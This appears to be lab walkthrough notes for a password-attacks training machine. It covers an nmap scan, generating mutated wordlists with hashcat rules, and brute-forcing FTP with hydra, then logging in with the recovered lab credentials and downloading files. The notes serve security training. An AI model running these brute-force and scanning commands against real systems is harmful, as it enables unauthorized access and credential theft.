   * Map given machine to ```password-attacks-1.htb``` in ```/etc/hosts```

  * Scan given machine - ```nmap -T4 -p- -A -Pn -v password-attacks-1.htb```

  * We have ports 21 and 22 open for FTP and SSH

  * Attempt bruteforce on FTP:

    ```sh
    # from given resources, we have usernames, passwords and a custom rule
    # we can generate a list of mutated passwords
    hashcat --force password.list -r custom.rule --stdout | sort -u > mut_pass.list

    # bruteforce FTP
    # we can first try with normal password list
    # if this does not work, we can use mutated password list
    hydra -L username.list -P password.list ftp://password-attacks-1.htb -t 36 -u
    # -u to check one password for each username, instead of all passwords for one username
    # if we lose session, we can use -R flag to restore/resume

    # if we want to reverse the order of passwords
    # to experiment while bruteforcing, we can use 'tac', opposite of 'cat'
    ```
  
  * From the bruteforcing of FTP, we get creds 'mike:7777777' - we can use this to log into FTP:

    ```sh
    ftp password-attacks-1.htb
    
    ls
    # we have 3 files

    mget *
    # fetch all files
    ```
  
